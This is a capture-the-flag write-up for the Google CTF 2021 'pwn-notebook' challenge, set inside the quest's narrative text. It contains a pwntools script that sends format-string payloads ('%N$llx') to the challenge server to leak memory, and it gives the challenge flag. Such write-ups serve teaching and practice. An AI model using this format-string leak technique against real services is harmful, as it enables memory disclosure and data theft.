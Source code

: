 [../](../)

# Heathrow - Secret Warehouse

> Wow, it’s a crowded day at Heathrow, lots of suits that bump into each other and try to catch their plane. You have to find the gate to the secret warehouse, it cannot be far away. You see a suspicious suit go into a fast food court and you spot him disappear behind the checkout. Hmmm, odd?! You follow, and when no one sees you follow him. You go through a desolated kitchen, it stinks, you cover your nose with the back of your hand. You pass through a small entrance, and enter the secret warehouse, wow, it’s vast!

## Challenge: pwn-notebook (pwn)

> Please help me restore my deleted note.

> https://storage.googleapis.com/gctf-2021-attachments-project/6c96641ce301c1cce0638c706ce6f08e03dd07a7206f13502814948b87956797cbfab4e5319df21bc2bed99834bd7aede661f86a8a0d5c7148c3158d566afc68

> pwn-notebook.2021.ctfcompetition.com 1337

## Solution

You are given a `notebook` binary and your task is to read a message that is flagged as deleted but still remains in memory.
The binary is vulnerable to format strings as user-specified input is directly passed to `printf` which allows to leak memory contents.

The following code reads the memory contents at the respective offset of the deleted message.

```python
from pwn import *

r = remote("pwn-notebook.2021.ctfcompetition.com", 1337)
print(r.recv())
print(r.recv())

for i in range(365, 440):
    r.sendline("3")
    r.sendline("%{}$llx".format(i))
    data = r.recv().decode("utf-8")
    for line in data.splitlines():
        if line.startswith("<"):
            try:
                print(bytearray.fromhex(line.split()[1]).decode()[::-1])
            except:
                pass
```

flag: `CTF{format_string_for_the_win}`

> This place feels shady, it’s almost empty, besides from a guy that stands leaning against a couple of crates in the distance, he looks slim in an unhealthy way and smokes. PLING! You got a text message from your boss, that reads: "Greetings AGENT, I’ve been informed about your so far successful journeys. When you get to the warehouse, find a crate that says: "新加坡人", hide in it and you will be transported to your next destination - Singapore! Keep up the good work." At first you’re reluctant to enter a box, and hope to get transported across the world in it, but you don’t have that much of a choice, do you? You sneak past the slender chainsmoker, find the box and enter it.